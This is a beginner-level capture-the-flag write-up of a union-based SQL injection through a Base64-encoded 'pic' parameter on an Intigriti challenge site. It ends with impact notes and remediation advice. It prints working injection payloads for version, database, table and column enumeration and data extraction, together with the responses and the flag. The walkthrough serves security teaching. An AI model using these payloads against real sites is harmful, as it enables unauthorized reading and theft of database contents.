


# SQL Injection via Base64-Encoded Parameter — Intigriti Challenge 0926

**Program:** Intigriti Challenge 0926

**Report Code:** INTIGRITI-KA6X5VQR

**Severity:** Medium

**Status:** Accepted 

**Vulnerability Type:** SQL Injection (Union-Based)

**Target:** `https://challenge-0926.challenges.intigriti.io`

---

## A Quick Explanation Before We Start

Imagine a website has a little box behind the scenes that talks to a database — like a librarian who fetches books when you ask for them by name.

Normally, you ask the librarian for "the picture named cat.jpg" and she brings it. But what if, instead of just asking nicely, you could **trick the librarian into reading out secrets from a locked drawer** just by phrasing your request in a sneaky way?

That's basically what **SQL Injection** is. And in this challenge, the request wasn't even sent in plain text — it was sent **scrambled using something called Base64** (think of it like writing your request in a simple secret code before handing it over). So there were two puzzles here:

1. Figure out the secret code (Base64) being used.
2. Use that code to sneak in a trick question that makes the database spill its secrets.

Let's walk through exactly how it was done.

---

## Step 1 — Explore the Website and Find the Clue

I opened the challenge page and started clicking on the little animal picture boxes to see how the site behaved.

While clicking around, I looked closely at the **URL in the address bar** after each click. I noticed one part of the URL — the `pic` parameter — didn't look like a normal filename. It looked like a jumbled string of random letters and numbers.

That jumbled text is usually a sign of **Base64 encoding** — a way of turning normal text into a scrambled-looking format (it's not encryption, just a different way of writing the same message).

`https://challenge-0926.challenges.intigriti.io/challenge.php?pic=cGFuZGE=`

**1.1: The challenge page with animal boxes**



**1.2: Browser address bar showing the `pic=` parameter**


---

## Step 2 — Decode the Secret Code (Base64)

I took the scrambled text from the `pic` parameter and ran it through a Base64 **decoder** (there are free ones online, or you can use a terminal command).

Once decoded, it turned out to just be a normal filename `panda`. That confirmed my theory: **whatever I put in, gets Base64-decoded by the server before it's used.**

This meant if I wanted to send a *trick message* to the server, I first had to write it normally, then **Base64-encode it myself**, and *then* place it into the `pic` parameter.

**2.1: Decoding the original `pic` value using a Base64 decoder tool**


---

## Step 3 — Test for SQL Injection

Now for the fun part. I wanted to see if the server was blindly trusting whatever I sent it, without checking if it was a "safe" filename or a sneaky database command.

First, I tried sending the SQL Injection payload directly as plain text:

```sql
1' OR '1'='1'--
```

This is like asking the librarian "bring me the book with ID number 1, OR just bring me literally anything, since 1 always equals 1." Because that statement is always true, the database gets confused and shows more than it should.


📸 [Insert screenshot here: Plain-text payload 1' OR '1'='1'-- being sent and showing that it does not work]

However, the plain-text payload did not work. The server did not interpret it as part of the SQL query.


So, I Base64-encoded the same payload and placed the encoded value into the `pic` parameter, then sent the request again.


📸 [Insert screenshot here: Plain-text payload 1' OR '1'='1'-- being sent and showing that it does not work]


 The response confirmed the server was executing my message as part of a real SQL query — not treating it as a harmless filename. **SQL Injection confirmed!**

**📸 [Insert screenshot here: sending the request in Burp Suite / browser and showing the response]**

---

## 🖼️ Step 4 — Ask the Database What It Is (Find the Version)

Now that I knew the door was unlocked, I wanted to know **which type of database** I was dealing with — like checking what brand of lock is on the door.

Plain-text payload:

```sql
1' UNION SELECT version()#
```

**Why `UNION SELECT`?** `UNION SELECT` is like saying "also bring me the answer to THIS other question, and staple it to the same reply." It lets you pull out extra information from the database that wasn't meant to be shown.

After Base64-encoding this and sending it, the page revealed:

```
8.0.46
```

This told me the backend was running **MySQL version 8.0.46**.

**📸 [Insert screenshot here: encoded payload for `version()` and the response showing `8.0.46`]**

---

## 🖼️ Step 5 — Find the Name of the Database

Next, I wanted to know the **name** of the database — like finding out the name of the room the locked drawer is in.

Plain-text payload:

```sql
1' UNION SELECT database()#
```

Response:

```
critter_gallery
```

So the database was called `critter_gallery`.

**📸 [Insert screenshot here: encoded payload for `database()` and response showing `critter_gallery`]**

---

## 🖼️ Step 6 — List All the Tables Inside the Database

Now I wanted to see all the "drawers" (tables) inside that room (database).

Plain-text payload:

```sql
1' UNION SELECT group_concat(table_name)
FROM information_schema.tables
WHERE table_schema='critter_gallery'#
```

**What's `information_schema`?** Think of it as the database's own filing cabinet that lists every drawer (table) that exists inside it — asking it nicely (or trickily) tells you what's there.

Response:

```
animals,secret_vault
```

Two tables existed: `animals` (probably just normal pictures) and `secret_vault` — which sounded very interesting. 👀

**📸 [Insert screenshot here: encoded payload for table enumeration and response showing `animals,secret_vault`]**

---

## 🖼️ Step 7 — Look Inside the `secret_vault` Drawer

Before opening the drawer, I needed to know **what labels (columns)** were inside it.

Plain-text payload:

```sql
1' UNION SELECT group_concat(column_name)
FROM information_schema.columns
WHERE table_name='secret_vault'#
```

Response:

```
id,note
```

So `secret_vault` had two columns: `id` and `note`.

**📸 [Insert screenshot here: encoded payload for column enumeration and response showing `id,note`]**

---

## 🖼️ Step 8 — Open the Drawer and Grab the Flag 🏁

Finally, the moment of truth. I asked the database to show me both columns together.

Plain-text payload:

```sql
1' UNION SELECT CONCAT(id,':',note)
FROM secret_vault#
```

**What's `CONCAT`?** It just glues two pieces of text together, like taping two puzzle pieces side by side so you can read them in one line.

Response:

```
1:INTIGRITI{01a09f56-74a2-700b-a849-ffe6742327b2}
```

🎉 **Flag captured:**

```
INTIGRITI{01a09f56-74a2-700b-a849-ffe6742327b2}
```

**📸 [Insert screenshot here: encoded payload for the final extraction and the response showing the flag]**

---

## 📝 Short Summary (For Anyone in a Hurry)

| Step | Action | Result |
|------|--------|--------|
| 1 | Explored the site, spotted the `pic` parameter | Found Base64-looking value |
| 2 | Decoded the value | Confirmed it was Base64-encoded |
| 3 | Injected `1' OR '1'='1'--` (Base64-encoded) | Confirmed SQL Injection |
| 4 | Injected `UNION SELECT version()` | Found MySQL 8.0.46 |
| 5 | Injected `UNION SELECT database()` | Found DB name `critter_gallery` |
| 6 | Enumerated tables | Found `animals`, `secret_vault` |
| 7 | Enumerated columns of `secret_vault` | Found `id`, `note` |
| 8 | Extracted data with `CONCAT()` | 🏁 Got the flag |

---

## ⚠️ Impact

- **Confidentiality:** An attacker could read *any* data in the database — user info, secrets, internal records — with nothing more than a browser and a Base64 encoder.
- **Integrity:** Depending on database permissions, an attacker might even be able to modify or delete data.
- **Availability:** In a worst-case scenario, tables could be dropped or corrupted, taking down parts of the app.
- **Scope:** No login was required at all — anyone visiting the site could exploit this with a single crafted link.

---

## 🛡️ How This Type of Bug Is Usually Fixed

*(General advice — not specific to Intigriti's own remediation, included here for educational completeness.)*

- Use **parameterized queries / prepared statements** instead of building SQL by gluing strings together.
- Never trust user input just because it's encoded (Base64 is *not* a security control — it's just a text format).
- Apply strict allow-lists for parameters like filenames (e.g., only allow known-good values).
- Use a Web Application Firewall (WAF) as an extra layer, not a replacement for fixing the actual code.

---

## 🙌 Final Notes

This was a fun challenge because it combined two layers of thinking:

1. Recognizing the Base64 encoding trick.
2. Applying classic UNION-based SQL Injection once the encoding was understood.

Hopefully this write-up makes the technique clear enough that even a total beginner — or a sharp 10-year-old — could follow along step by step. 😄

---

*Written as an educational walkthrough of an accepted Intigriti challenge report. Replace all `📸 [Insert screenshot here]` placeholders with your own images before publishing.*
